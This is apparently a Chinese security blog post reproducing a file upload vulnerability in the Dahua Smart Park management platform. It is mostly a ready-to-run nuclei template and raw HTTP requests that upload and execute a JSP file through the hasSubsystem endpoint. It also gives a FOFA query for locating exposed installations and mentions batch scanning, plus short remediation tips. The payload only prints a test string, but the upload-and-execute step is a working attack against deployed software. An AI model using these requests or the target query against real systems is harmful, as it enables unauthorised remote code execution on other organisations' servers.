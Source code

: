 #  大华智慧园区综合管理平台hasSubsystem接口处存在文件上传漏洞【漏洞复现|附nuclei-POC】   
原创 kingkong  脚本小子   2024-11-18 00:35  
  
****  
**免责声明：**  
**本文内容仅供技术学习参考，请勿用于违法破坏。利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，与作者无关。如有侵权请联系删除。**  
  
  
****  
**漏洞描述：**  
  
大华智慧园区综合管理平台hasSubsystem接口处存在文件上传漏。  
攻击者可通过上传包含恶意代码的文件到服务器，使恶意文件被执行，从而导致系统被入侵或遭受其他安全风险。  
  
  
01  
  
—  
  
**Nuclei POC**  
  
```
id: dahua-zhihuiyuanqu-hasSubsystem-fileupload

info:
  name: 大华智慧园区综合管理平台hasSubsystem接口处存在文件上传漏洞
  author: kingkong
  severity: high
  metadata:
    fofa-query: app="dahua-智慧园区综合管理平台"

http:
  - raw:
      - |
        POST /emap/devicePoint_addImgIco?hasSubsystem=true HTTP/1.1
        Host: {{Hostname}}
        Content-Type: multipart/form-data; boundary=A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT
        User-Agent: Java/1.8.0_345
        Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
        Content-Length: 229
        Connection: close

        --A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT
        Content-Disposition: form-data; name="upload"; filename="1.jsp"
        Content-Type: application/octet-stream
        Content-Transfer-Encoding: binary

        <%out.println("test");new java.io.File(application.getRealPath(request.getServletPath())).delete();%>
        --A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT--

      - |
        GET /upload/emap/society_new/{{data_url}} HTTP/1.1
        Host: {{Hostname}}

    matchers-condition: and
    matchers:
      - type: dsl
        dsl:
              - 'status_code_1 == 200'
              - 'status_code_2 == 200'
              - 'contains(body_1,"data")'
              - 'contains(body_2,"test")'
        condition: and

    extractors:
      - type: regex
        name: data_url
        part: body_1
        group: 1
        regex:
          - (ico_res_[a-zA-Z0-9]{12}_on.jsp)
        internal: true
```  
  
  
02  
  
—  
  
搜索语法  
```
FOFA：app="dahua-智慧园区综合管理平台"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohncB4ElELKGic8fxpuVaU1cKznGE6PUtyzaTaDiaIQbnO7SNBxkkhs4HVic2BQjjfLlXG2yaJXewHJTqw/640?wx_fmt=png&from=appmsg "")  
  
界面如下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohncB4ElELKGic8fxpuVaU1cKzHcbmWPkVoKweiaTP3iczuYnO0l2jyBduxFGxdTibegoOibhfOf6HViceib9A/640?wx_fmt=png&from=appmsg "")  
  
03  
  
—  
  
漏洞复现  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohncB4ElELKGic8fxpuVaU1cKzwVWH7GaSNfvGjibY9Nm4sLMuuKHBVrcgKlSGEZ3ha8MmpsZoZXrgIng/640?wx_fmt=png&from=appmsg "")  
  
访问验证  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohncB4ElELKGic8fxpuVaU1cKzUT5RYl3KyluWKLL7WjRSEH3Gr3B3vuyib9uBKpXuLOxI8KibqS3wicg9w/640?wx_fmt=png&from=appmsg "")  
漏洞检测POC  
```
POST /emap/devicePoint_addImgIco?hasSubsystem=true HTTP/1.1
Host: 
User-Agent: Java/1.8.0_345
Content-Length: 317
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
Content-Type: multipart/form-data; boundary=A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT
Accept-Encoding: gzip

--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT
Content-Disposition: form-data; name="upload"; filename="1.jsp"
Content-Type: application/octet-stream
Content-Transfer-Encoding: binary

<%out.println("test");new java.io.File(application.getRealPath(request.getServletPath())).delete();%>
--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT--


GET /upload/emap/society_new/ico_res_dca73685d934_on.jsp HTTP/1.1
Host:
```  
  
  
neclei批量检测截图  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohncB4ElELKGic8fxpuVaU1cKz6NfiaucdeXBTiaicXUKibSFBTLfOk3DV1Zq0nSD0Tsib0AEUiaurHqgR8DjQ/640?wx_fmt=png&from=appmsg "")  
  
  
04  
  
—  
  
修复建议  
  
  
1、文件类型验证：仅允许上传特定类型的文件，例如图像、文档等，并拒绝可执行文件或其他潜在的恶意文件类型。  
  
2、文件大小限制：限制上传文件的大小，以防止恶意用户上传过大的文件导致服务器资源耗尽。  
  
3、文件名处理：对上传的文件进行重命名，避免使用用户提供的文件名，以防止路径遍历攻击。  
  
05  
  
—  
  
下载地址  
  
  
进入公众号点击POC可获取所有POC文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohneS7aOPfDNKhvOicibVlyrkJ3A4EuUx5c5S8eAxFnF9KiaibAGJfP6ibB6ze4Rm4pZ7MI4jQibT05lTevqg/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
  
  
  
  
  
